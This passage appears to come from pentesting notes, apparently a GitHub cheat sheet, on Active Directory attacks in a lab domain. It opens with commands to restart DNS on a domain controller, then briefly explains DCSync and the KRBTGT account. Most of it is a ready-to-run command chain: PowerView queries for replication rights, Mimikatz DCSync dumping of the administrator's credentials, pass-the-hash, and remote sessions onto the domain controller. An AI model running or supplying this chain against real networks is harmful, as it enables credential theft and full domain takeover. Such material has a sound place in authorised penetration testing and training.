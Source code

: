 ## For restarting the server
```bash
sc.exe <FQDN of DC> stop dns
sc.exe <FQDN of DC> start dns
```

# DCSync

DCSync is a credential dumping technique that can lead to the compromise of individual user credentials, and more seriously as a prelude to the creation of a Golden Ticket, as DCSync can be used to compromise the krbtgt account’s password.

To perform a DCSync attack, an adversary must have compromised a user with the Replicating Directory Changes All and Replicating Directory Changes privileges. Members of the Administrators, Domain Admins, Enterprise Admins, and Domain Controllers groups have these privileges by default. It is also possible for any user to be granted these specific privileges. Once obtained, an adversary uses the Directory Replication Service (DRS) Remote Protocol to replicate data (including credentials) from Active Directory.

The KRBTGT is a local default account that acts as a service account for the Key Distribution Center (KDC) service. It's created automatically when a new domain is created. It cannot be deleted. its name cannot be changed. it cannot be enabled.

KDC service handles all Kerberos ticket requests so KRBTGT account in AD plays a key role that encrypts and sign all Kerberos tickets for the domain.

```bash
Get-ForestGlobalCatalog
Get-DomainUser -Name student1

# Get the object ACL for the pentesting.local forest
Get-ObjectACL "DC=pentesting,DC=local" -ResolveGUIDs 

# Get the object ACL matching ObjectAceType = DS-Replication for the pentesting.local forest
Get-ObjectACL "DC=pentesting,DC=local" -ResolveGUIDs | ? { ($_.ObjectAceType -like 'DS-Replication*')}

# Get the object ACL matching ObjectAceType = DS-Replication and SecurityIdentifier for my current user =  for the pentesting.local forest
Get-ObjectACL "DC=pentesting,DC=local" -ResolveGUIDs | ? { ($_.ObjectAceType -like 'DS-Replication*') -and ($_.SecurityIdentifier -match 'S-1-5-21-1070240333-336889418-1185445934-1603') }

# Get the all the ACL in the pentesting.local forest for my current SecurityIdentifier
Get-ObjectACL "DC=pentesting,DC=local" -ResolveGUIDs | ? { ($_.SecurityIdentifier -match 'S-1-5-21-1070240333-336889418-1185445934-1603') }

# dump the commands for administrator
import-module invoke-mimikatz
invoke-mimikatz -Command '"lsadump::dcsync /user:v.frizzle\administrator"'

# pass the hash to become the administrator
Invoke-Mimikatz -Command '"sekurlsa::pth /user:administrator /domain:... /ntlm:... /run:powershell.exe"'

# see if we are administrator
invoke-command -ComputerName dc.pentesting.local -ScriptBlock{whoami;hostname}

# enter powershell session for the dc as the administrator
Enter-PSSession -ComputerName dc.pentesting.local
hostname
whoami
```
